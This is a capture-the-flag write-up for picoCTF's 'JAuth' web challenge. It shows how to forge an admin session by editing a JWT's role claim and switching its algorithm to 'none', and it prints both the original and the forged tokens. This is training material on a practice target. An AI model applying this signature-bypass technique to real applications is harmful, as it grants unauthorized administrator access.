 # JAuth

- [Challenge information](JAuth.md#challenge-information)
- [Solution](JAuth.md#solution)

## Challenge information
```
Points: 300
Tags: picoGym Exclusive, Web Exploitation
Author: GEOFFREY NJOGU

Description:
Most web application developers use third party components without testing their security. 

Some of the past affected companies are:
 * Equifax (a US credit bureau organization) - breach due to unpatched Apache Struts web framework CVE-2017-5638
 * Mossack Fonesca (Panama Papers law firm) breach - unpatched version of Drupal CMS used
 * VerticalScope (internet media company) - outdated version of vBulletin forum software used

Can you identify the components and exploit the vulnerable one?
The website is running here. Can you become an admin?

You can login as test with the password Test123! to get started.

Hints:
1. Use the web browser tools to check out the JWT cookie.
2. The JWT should always have two (2) . separators.
```

## Solution

### Connect to the website

Browse to the web site and login with `test:Test123!`

Next use your browsers DevTools (press F12) and select the Application tab. Then select the `token` cookie.

Copy the cookie which should look like this
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNjkwMjIzODc4fQ.XbdYap8wn4MDxo8PiK0XYjRv2hE-UHrSa8xlLmTGbEo
```

This is a Java Web Token (JWT) and it consists of 3 parts separated by dots:
 * Header
 * Payload
 * Signature

### Decode the JWT token

Decode the JWT on an online service such as [Token.Dev](https://token.dev/). Replace the dummy/demo JWT with your data.

The data is base64-decoded and you can see that the header contains
```
{
  "typ": "JWT",
  "alg": "HS256"
}
```

And the payload contains
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "user",
  "iat": 1690223878
}
```

The `auth` and `iat` fields are timestamps and will be different in your case.
Note that the `role` field says "user".

### Create a new JWT token

Instead of `role` user we want to be admin, so change this field
```
{
  "auth": 1690223878205,
  "agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36",
  "role": "admin",
  "iat": 1690223878
}
```

But now we have a problem. The signature isn't valid anymore.  
However, we can bypass this by changing the algorithm to none. This disables/removes the signature.
```
{
  "typ": "JWT",
  "alg": "none"
}
```

Copy the new JWT and remember the hint. A JWT should always have two periods and our new JWT only have one.  
So add a period at the end
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJhdXRoIjoxNjkwMjIzODc4MjA1LCJhZ2VudCI6Ik1vemlsbGEvNS4wIChXaW5kb3dzIE5UIDEwLjA7IFdpbjY0OyB4NjQpIEFwcGxlV2ViS2l0LzUzNy4zNiAoS0hUTUwsIGxpa2UgR2Vja28pIENocm9tZS8xMTQuMC4wLjAgU2FmYXJpLzUzNy4zNiIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTY5MDIyMzg3OH0.
```

### Use the new JWT token to get the flag

Go back to the browser and replace the `token` cookie with the new one. Then reload the page.

<p style="text-align: center;">
<h2>Hello, admin! You have logged in as admin!</h2>
picoCTF{<REDACTED>}
</p>
